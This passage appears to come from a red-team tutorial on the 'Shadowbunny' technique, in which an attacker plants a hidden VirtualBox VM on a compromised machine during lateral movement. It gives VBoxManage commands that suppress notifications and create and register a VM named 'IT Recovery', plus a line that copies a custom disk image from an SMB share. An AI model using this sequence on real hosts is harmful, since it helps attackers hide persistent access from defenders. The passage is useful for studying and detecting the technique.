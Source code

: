 For instance, some basic commands for listing VMs are: 

```
VBoxManage list vms 
VBoxManage list runningvms
VBoxManage startvm
```

To create the new VM during lateral movement we will run a sequence of commands via VBoxManage, the management tool of VirtualBox. In the end the configuration is stored in an XML definition file, which can be registered with VBoxManage command as well.

### Disabling notifications
Optionally one can configure more settings of the product, for instance to suppress pop-up notifications:

```
VBoxManage.exe setextradata global GUI/SuppressMessages "all" 
```

Now that we have know the basics of VBoxManage, let’s create move towards creation of the VM.


## Step 5: Download the custom Shadowbunny VM disk image to the host

Similar to downloading the installation package, this can be done via multiple means. 

Let’s say we host the image on an SMB Share in Microsoft Azure:

```
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd
```

You might also leverage **a local file server** on your organizations Intranet or a cloud drive.  

As described in the pre-requisites, this is your customized VM. You can try to have a VM as small as possible, or just use a basic Ubuntu install (although that is a bit large) and copying will take a while, but it works fine also.

## Step 6: Configuring the VM

Now comes the most interesting part. 

Using the `createvm` command we build out the VM and register the disk image file with the VM. As said, the `VBoxManage.exe` binary is installed by default at `\Program Files\Oracle\VirtualBox` in case you have trouble locating it after installation. 

* The following command will create the new VM:

    ```
    $vmname = "IT Recovery"
    .\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register
    ```
    This will create the VM and also register it right away, the output is the following:

